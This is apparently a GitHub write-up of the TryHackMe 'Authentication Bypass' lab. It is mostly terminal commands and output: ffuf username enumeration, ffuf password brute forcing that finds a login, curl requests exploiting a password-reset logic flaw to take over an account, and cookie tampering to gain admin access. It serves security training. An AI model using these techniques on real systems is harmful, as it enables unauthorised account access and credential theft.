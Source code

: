 [TryHackMe | Authentication Bypass](https://tryhackme.com/room/authenticationbypass)

# TryHackMe-Authentication-Bypass
`Learn how to defeat logins and other authentication mechanisms to allow you access to unpermitted areas.`

## Task 1 Brief

## Task 2 Username Enumeration
http://machine_ip/customers/signup

```
root@ip-10-10-25-193:~# ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.50.205/customers/signup -mr "username already exists"

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.50.205/customers/signup
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Usernames/Names/names.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&email=x&password=x&cpassword=x
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Regexp: username already exists
________________________________________________

admin                   [Status: 200, Size: 3720, Words: 992, Lines: 77]
robert                  [Status: 200, Size: 3720, Words: 992, Lines: 77]
simon                   [Status: 200, Size: 3720, Words: 992, Lines: 77]
steve                   [Status: 200, Size: 3720, Words: 992, Lines: 77]
:: Progress: [10164/10164] :: Job [1/1] :: 1503 req/sec :: Duration: [0:00:07] :: Errors: 0 ::
root@ip-10-10-25-193:~# 
```

[ffuf/ffuf: Fast web fuzzer written in Go](https://github.com/ffuf/ffuf)

## Task 3 Brute Force
http://machine_ip/customers/login

```
root@ip-10-10-25-193:~# nano valid_usernames.txt
root@ip-10-10-25-193:~# ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.50.205/customers/login -fc 200

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.50.205/customers/login
 :: Wordlist         : W1: valid_usernames.txt
 :: Wordlist         : W2: /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=W1&password=W2
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response status: 200
________________________________________________

[Status: 302, Size: 0, Words: 1, Lines: 1]
    * W1: steve
    * W2: thunder

:: Progress: [400/400] :: Job [1/1] :: 229 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
root@ip-10-10-25-193:~# 
```

## Task 4 Logic Flaw
http://machine_ip/customers/reset

`curl 'http://10.10.217.236/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'`

`curl 'http://10.10.217.236/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'`

`curl 'http://10.10.217.236/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=r1skkam@customer.acmeitsupport.thm'`

[What is the flag from Robert's support ticket?](https://github.com/r1skkam/TryHackMe-Authentication-Bypass/blob/main/flag.png)

## Task 5 Cookie Tampering
[TryHackMe | HTTP in detail](https://tryhackme.com/room/httpindetail)

[CrackStation - Online Password Hash Cracking - MD5, SHA1, Linux, Rainbow Tables, etc.](https://crackstation.net/)

```
root@ip-10-10-186-166:~# curl http://10.10.217.236/cookie-test
Not Logged In

root@ip-10-10-186-166:~# curl -H "Cookie: logged_in=true; admin=false" http://10.10.217.236/cookie-test
Logged In As A User

root@ip-10-10-186-166:~# curl -H "Cookie: logged_in=true; admin=true" http://10.10.217.236/cookie-test
Logged In As An Admin - THM{COOKIE_TAMPERING}
```
